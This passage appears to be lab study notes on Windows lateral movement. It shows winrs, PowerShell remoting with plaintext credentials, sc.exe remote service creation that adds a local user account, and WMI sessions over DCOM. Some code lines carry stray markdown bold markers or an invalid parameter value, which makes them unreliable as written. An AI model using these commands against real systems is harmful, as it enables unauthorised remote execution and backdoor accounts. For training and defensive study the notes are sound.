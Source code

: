     ```powershell
    	winrs.exe -u:$username -p:$password -**r**:$**r**emote_address $program.exe
    ```
    

## [+] Powershell

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

- Once we have our `PSCredential` object, we can create an interactive session using the `Enter-PSSession` cmdlet:
    
    ```powershell
    Enter-PSSession -Computername TARGET -Credential $credential
    ```
    
- `Powershell` also includes the Invoke-Command cmdlet, which runs `ScriptBlocks` remotely via WinRM. Credentials must be passed through a `PSCredential` object as well:
    
    ```powershell
    Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {**whoami**}
    ```
    

## [+] **SC.exe**

- **Required Group Memberships:** Administrators
    
    ```bash
    # Remotely Creating Services Using sc
    sc.exe \\\\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
    sc.exe \\\\TARGET start THMservice
    
    sc.exe \\\\TARGET stop THMservice
    sc.exe \\\\TARGET delete THMservice
    ```
    

---

# [=] Lateral Movement Using WMI

## [+] **Connecting to WMI Using Powershell**

```powershell
		$username = 'Administrator';
		$password = 'Mypass123';
		$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
		$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
		$Opt = New-CimSessionOption -Protocol DCOM
		$Session = New-Cimsession -ComputerName **$TARGET** -Credential $credential -SessionOption $Opt -ErrorAction Stops
```
